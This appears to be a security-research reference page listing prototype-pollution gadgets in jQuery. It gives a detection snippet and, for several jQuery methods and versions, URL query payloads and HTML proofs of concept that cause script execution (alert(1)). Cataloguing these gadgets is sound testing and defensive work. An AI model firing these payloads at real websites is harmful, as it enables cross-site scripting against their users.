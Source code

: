 ## jQuery 

URL: https://jquery.com/

### JS Fingerprint
```
return (typeof $ !== 'undefined' && typeof $.fn !== 'undefined' && typeof $.fn.jquery !== 'undefined')
```

### PoC

#### $(x).off jQuery all versions

* Can be exploited through String.prototype

```
?__proto__[preventDefault]=x&__proto__[handleObj]=x&__proto__[delegateTarget]=<img/src/onerror%3dalert(document.domain)>
```

```html
<script/src=https://code.jquery.com/jquery-3.3.1.js></script>
<script>
  Object.prototype.preventDefault='x'
  Object.prototype.handleObj='x'
  Object.prototype.delegateTarget='<img/src/onerror=alert(1)>'
  /* No extra code needed for jQuery 1 & 2 */
  $(document).off('foobar');
</script>
```

#### $(html) jQuery all versions

```
?__proto__[div][0]=1&__proto__[div][1]=<img src onerror%3dalert(1)>
```

```html
<script/src=https://code.jquery.com/jquery-3.3.1.js></script>
<script>
  Object.prototype.div=['1','<img src onerror=alert(1)>']
</script>
<script>
  $('<div x="x"></div>')
</script>
```

#### $.get jQuery >= 3.0.0

* Also can be used for $.post, $.ajax, $.getJSON
* Can be exploited through Boolean.prototype

```
?__proto__[url][]=data:,alert(1)//&__proto__[dataType]=script
```

```html
<script src=https://code.jquery.com/jquery-3.5.1.js></script>
<script> 
  Object.prototype.url = ['data:,alert(1)//'];   
  Object.prototype.dataType = 'script';
</script>      
<script>
  $.get('https://google.com/'); 
  $.post('https://google.com/'); 
</script>
```

#### $.getScript jQuery >= 3.4.0
```
?__proto__[src][]=data:,alert(1)//
```

```html
<script src=https://code.jquery.com/jquery-3.5.1.js></script>
<script>
  Object.prototype.src = ['data:,alert(1)//']
</script>
<script>
  $.getScript('https://google.com/')
</script>
```

#### $.getScript jQuery 3.0.0 - 3.3.1

* Can be exploited through Boolean.prototype

```
?__proto__[url]=data:,alert(1)//
```

```html
<script/src=https://code.jquery.com/jquery-3.3.1.js></script>
<script>
  Object.prototype.url = 'data:,alert(1)//'
</script>
<script>
  $.getScript('https://google.com/')
</script>
```

#### $.get jQuery all versions

```
?__proto__[context]=<img/src/onerror%3dalert(1)>&__proto__[jquery]=x
```

```html
<script src=https://cdnjs.cloudflare.com/ajax/libs/jquery/1.10.0/jquery.js></script>
<script> 
  Object.prototype.context = '<img/src/onerror=alert(1)>';
  Object.prototype.jquery = 'x';
</script>      
<script>
  jQuery.get('http://google.com/');
</script>
```

#### $.get jQuery >= 3.0.0

* Can be exploited through Boolean.prototype

```
?__proto__[url]=data:,alert(1)//&__proto__[dataType]=script&__proto__[crossDomain]=
```

```html
<script src=https://cdnjs.cloudflare.com/ajax/libs/jquery/3.6.0/jquery.js></script>
<script> 
  Object.prototype.url = 'data:,alert(1)//';
  Object.prototype.dataType = 'script';   
  Object.prototype.crossDomain = '';
</script>      
<script>
  $.get('http://google.com/'); 
  $.post('http://google.com/'); 
</script>
```

#### $(x).attr jQuery >= 1.8.0

* Sets the attribute of an element

```
?__proto__[OnError]=alert(1)&__proto__[SRC]=fakeimagewontload
```

```html
<img id="test" src=realimage.jpg>
<script src=https://cdnjs.cloudflare.com/ajax/libs/jquery/3.6.0/jquery.js></script>
<script>
  Object.prototype.OnError = 'alert(1)';
  Object.prototype.SRC = 'fakeimagewontload.jpg';
</script>
<script>
$('#test').attr({"width":"100%"}) // The {} is being polluted with extra attributes
</script>
```

#### <span>$</span>(x).on, <span>$</span>(x).submit jQuery >= 1.9.0

* Requires user interaction
* Can be exploited through Function.prototype

```
?__proto__[handler][]=x&__proto__[selector][]=<img/src/onerror%3Dalert(1)>&__proto__[focus]=x&__proto__[needsContext]=x
```

```html
<script src=https://code.jquery.com/jquery-3.7.1.js></script>
<form id="search">
  <input id="y" />
</form>
<script>
Object.prototype.handler = ["x"];
Object.prototype.selector = ["<img/src/onerror=alert(1)>"];
Object.prototype.delegateType = "focus";
Object.prototype.needsContext = "x";
</script>
<script>
$("#search").submit(() => {});
</script>
```

```
?__proto__[handler][]=x&__proto__[selector][]=<img/src/onerror%3Dalert(1)>&__proto__[needsContext]=x
```

```html
<script src=https://code.jquery.com/jquery-1.9.0.js></script>
<div id="search">
  <div>Test</div>
</div>
<script>
Function.prototype.handler = ["x"];
Function.prototype.selector = ["<img/src/onerror=alert(123)>"];
Function.prototype.needsContext = "x";
</script>
<script>
$("#search").on("click", () => {});
</script>
```
